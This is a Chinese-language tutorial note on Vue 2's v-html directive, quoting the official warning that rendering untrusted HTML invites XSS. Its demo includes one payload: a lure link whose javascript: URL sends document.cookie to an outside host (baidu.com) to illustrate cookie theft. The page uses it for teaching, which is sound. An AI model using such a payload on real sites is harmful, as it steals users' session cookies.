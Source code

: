 > 📌**你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 **[**XSS 攻击**](https://en.wikipedia.org/wiki/Cross-site_scripting "XSS 攻击")**。请只对可信内容使用 HTML 插值，绝不要对用户提供的内容使用插值。**

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>v-html指令</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器-->
    <div id="root">
      <div>你好，{{name}}</div>
       <div v-html="str"></div>
      <div v-html="str2"></div> 
    </div>
  </body>

  <script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
      el:'#root',
      data:{
        name:'赵新坤',
         str:'<h3>你好啊！</h3>',
        str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>', 
      }
    })
  </script>
</html>
```

- **预期**：`string`
- **详细**：

  更新元素的 `innerHTML`。**注意：内容按普通 HTML 插入 - 不会作为 Vue 模板进行编译**。如果试图使用 `v-html` 组合模板，可以重新考虑是否通过使用组件来替代。

> 📌在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 [XSS 攻击](https://en.wikipedia.org/wiki/Cross-site_scripting "XSS 攻击")。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

在[单文件组件](https://v2.cn.vuejs.org/v2/guide/single-file-components.html "单文件组件")里，`scoped` 的样式不会应用在 `v-html` 内部，因为那部分 HTML 没有被 Vue 的模板编译器处理。如果你希望针对 `v-html` 的内容设置带作用域的 CSS，你可以替换为 [CSS Modules](https://vue-loader.vuejs.org/en/features/css-modules.html "CSS Modules") 或用一个额外的全局 `<style>` 元素手动设置类似 BEM 的作用域策略。

> 📌用于将元素的 `innerHTML` 设置为表达式的值。

- 示例：

```html
//简单使用
<div id="app">
  <div v-html="htmlContent"></div>
</div>

<script>
  new Vue({
    el: '#app',
    data: {
      htmlContent: '<p style="color: red;">This is red text.</p>'
    }
  });
</script>
```